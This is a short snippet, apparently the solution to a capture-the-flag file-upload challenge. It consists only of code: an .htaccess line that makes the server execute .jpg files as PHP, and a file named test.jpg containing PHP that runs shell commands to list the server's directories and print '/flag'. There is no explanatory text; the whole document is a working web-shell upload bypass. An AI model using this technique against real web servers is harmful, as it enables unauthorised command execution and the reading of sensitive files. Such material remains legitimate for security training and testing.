 `.htaccess`:

```
AddType application/x-httpd-php .jpg
```

`test.jpg`:

```php
<?php
  echo shell_exec("ls -la ..");
  echo shell_exec("ls -la /");
  echo shell_exec("cat /flag");
?>
```
